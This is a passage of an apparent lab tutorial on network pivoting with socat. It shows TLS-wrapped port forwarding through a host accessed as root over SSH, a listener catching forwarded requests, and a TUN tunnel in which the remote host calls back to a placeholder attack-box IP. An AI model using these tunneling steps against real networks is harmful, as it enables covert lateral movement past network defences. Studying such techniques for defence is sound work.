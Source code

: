 Now clean up

```
[[ Socat~Call ]]*
pkill socat
ssh root@nginx pkill socat
```

### Local port forwarding

Now we want to forward traffic from a local port so that it reaches the target

```
[[ Socat~Listener ]]
socat -d -d TCP-LISTEN:9999,fork,reuseaddr OPENSSL-CONNECT:nginx:3030,cert=server.pem,cafile=server.pem,verify=0
```


```
[[ Socat~RemoteForward ]]
ssh root@nginx socat -d -d OPENSSL-LISTEN:3030,cert=server.pem,cafile=server.crt,verify=0 tcp-connect:linux:80
```


```
[[ Socat~Call ]]
lsof -i tcp:9999
	#check to make sure our local port forward is ready
lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
	#check to make sure catcher is ready
cat /tmp/PROOF
callMe.sh 127.0.0.1 9999 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#notice a request from nginx, even though we sent the request to loopback on port 9999.
```


### tun interface

First we setup a tls server

```
[[ Socat~Listener ]]
sudo socat -d -d OPENSSL-LISTEN:8888,fork,reuseaddr,cert=server.pem,cafile=server.pem,verify=1 TUN:10.13.37.2/30,up
```

Next we call into that server

```
[[ Socat~RemoteForward ]]
ssh root@nginx 'socat -d -d openssl-connect:<ATTACK_BOX_IP>:8888,cert=server.pem,cafile=server.crt,verify=0 TUN:10.13.37.1/30,up'
```

After calling in, we have a tun interface on each machine that can communicate with each other over tcp/udp/icmp/other layer three protocols.
```
[[ Socat~Call ]]
ip a
ping -c 1 10.13.37.1
```
